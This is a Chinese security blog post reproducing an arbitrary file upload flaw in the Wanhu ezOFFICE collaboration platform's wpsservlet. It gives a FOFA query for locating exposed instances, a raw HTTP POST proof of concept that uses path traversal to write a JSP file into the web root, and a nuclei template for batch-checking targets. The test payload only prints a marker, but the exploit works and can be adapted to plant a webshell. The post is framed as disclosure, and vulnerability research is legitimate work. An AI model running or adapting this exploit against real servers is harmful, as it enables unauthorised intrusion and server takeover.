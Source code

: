 # 原创
：  漏洞复现--万户ezoffice wpsservlet任意文件上传

# 漏洞复现--万户ezoffice wpsservlet任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

万户ezOFFICE协同管理平台是一个综合信息基础应用平台。此系统wpsservlet存在任意文件上传。攻击者可上传恶意脚本文件获取服务器权限。

### 二：漏洞影响版本

万户ezoffice

### 三：网络空间测绘查询

fofa：<br/> `app="万户网络-ezOFFICE"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6912cb6e8728abcf0c64ee65d5374e2b.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d7252e19c7b81efc6545ec2f1164b9e5.jpeg"/><br/> POC:

```
POST /defaultroot/wpsservlet?option=saveNewFile&amp;newdocId=check&amp;dir=../platform/portal/layout/&amp;fileType=.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=55aeb894de1521afe560c924fad7c6fb
Content-Length: 200

--55aeb894de1521afe560c924fad7c6fb
Content-Disposition: form-data; name="NewFile"; filename="check.jsp"

&lt;% out.print("This website has a vulnerability!!!");%&gt;
--55aeb894de1521afe560c924fad7c6fb--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d3dc588de8f0f63ad5b41a43ef85f230.jpeg"/><br/> 访问/defaultroot/platform/portal/layout/check.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/326e6137cb5781cbc4d950c1f30e4a42.jpeg"/>

### 五：批量检测

```
id: wanhu-ezoffice-wpsservlet-upload

info:
  name: wanhu-ezoffice-wpsservlet-upload
  author: 芝士土拨鼠
  severity: high
  description: 万户ezOFFICE协同管理平台是一个综合信息基础应用平台。此系统wpsservlet存在任意文件上传。攻击者可上传恶意脚本文件获取服务器权限。

requests:
  - raw:
      - |-
        POST /defaultroot/wpsservlet?option=saveNewFile&amp;newdocId=check&amp;dir=../platform/portal/layout/&amp;fileType=.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
        Accept-Encoding: gzip, deflate
        DNT: 1
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Type: multipart/form-data; boundary=55aeb894de1521afe560c924fad7c6fb
        Content-Length: 200

        --55aeb894de1521afe560c924fad7c6fb
        Content-Disposition: form-data; name="NewFile"; filename="check.jsp"

        &lt;% out.print("This website has a vulnerability!!!");%&gt;
        --55aeb894de1521afe560c924fad7c6fb--

      - |
        GET /defaultroot/platform/portal/layout/check.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'vulnerability'
      - type: status
        status:
          - 200

```
